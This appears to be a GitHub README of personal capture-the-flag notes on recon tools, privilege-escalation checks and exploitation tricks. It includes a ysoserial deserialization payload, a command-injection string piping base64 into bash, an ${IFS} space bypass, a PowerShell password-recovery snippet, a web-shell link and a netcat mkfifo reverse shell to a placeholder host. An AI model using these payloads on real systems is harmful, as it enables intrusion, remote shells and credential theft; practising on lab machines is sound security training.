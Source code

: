 # Notes that include various things I've found useful in some ctfs. 
## Tools

Subdomain enumeration 


* GoBuster - good for DNS searchers. Always use the -t 1000 switch while on VPN
* DirSearch - Quick for directory searches 
* FFuF - doesn't work that well on HTB vpns


nmap
* Service Version all with output to note. 
```
sudo nmap -sV -A host -oN host-nmap.txt
```
* Regular scan for a quick scan
```
nmap -p- host
```
* udp scan -T4 + agression -vv verbose
```
nmap -sU -T4 -vv
```
Serliaze a command (this case a ping) to a .des file to eventually turn into b64 
```
java -jar ysoserial-all.jar CommonsBeanutils1 'ping 10.10.14.11 -c 5' > ping.des 
```

Get the b64 payload 
```
base64 -w 0 ping.des > ping.b64 
```

Reading base64 payload then running in bash. 
```
;echo 'payload'|base64 -d|bash;
```

Find Permissions that you have - 
```
find / -type f -perm -u=s 2>/dev/null
```

Find Password in Derby.dat (ofbiz)
```
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' .
```

Sign in as admin
```
su root
```	
Make bash script executable 
```
chmod +x filename.sh
```
See if you can run anything that normally requires sudo with current account
```
sudo -l
```

White [space] in commands
```
${IFS}
```
		
Basic Netcat listener 
```
nc -lvnp 4444
```
	
Basic http.server to fetch with
```
python3 -m http.server
```	
PhP shell, save as .phar file or other php varients. 
```
https://github.com/flozz/p0wny-shell
```
SNMPWalk - Gather info from SNMP. v2c specifies snmp version -c specifies a specific string you're looking for
```
snmpwalk -v2c -c string domain 
snmpwalk -c <community_string> -v2c <OID>
```
	
Basic SQLmap on a domain 
```
sqlmap -u "vulndomain" --batch 
```
Fetching password in windows using powershell 
```
echo PASSWORD > pass.txt
$EncryptedString = Get-Content .\pass.txt
$SecureString = ConvertTo-SecureString $EncryptedString
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString
echo $Credential.GetNetworkCredential().password
```

#Shells
Outside of revshells, there may be others that are useful 
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc [IP] [port] >/tmp/f
```


# Identification 
```
uname -a
```
```
cat /etc/os-release
```
```
find / -name "filename.type"
```

***Look at some word lists that include/actuator***

# Tips N Tricks

***Always try default credentials***

When using the cookie, use the intercept mode and do it one by one for each authentication in Burp. There is a way to configure it where it will automatically use it, somewhere. Haven't figured that part out. 

When doing downloads, use intercept and see if you can do directory traversal or fetch other files than what you're looking to downloads

Look at the individual folders for the writeups I'll do.. They're literally a transcription of my notes that I take while working on these boxes. 

# Good Resources 

GTFOBins
	https://gtfobins.github.io/

Hack Tricks
	https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp?source=post_page-----cc2d7b64da35--------------------------------
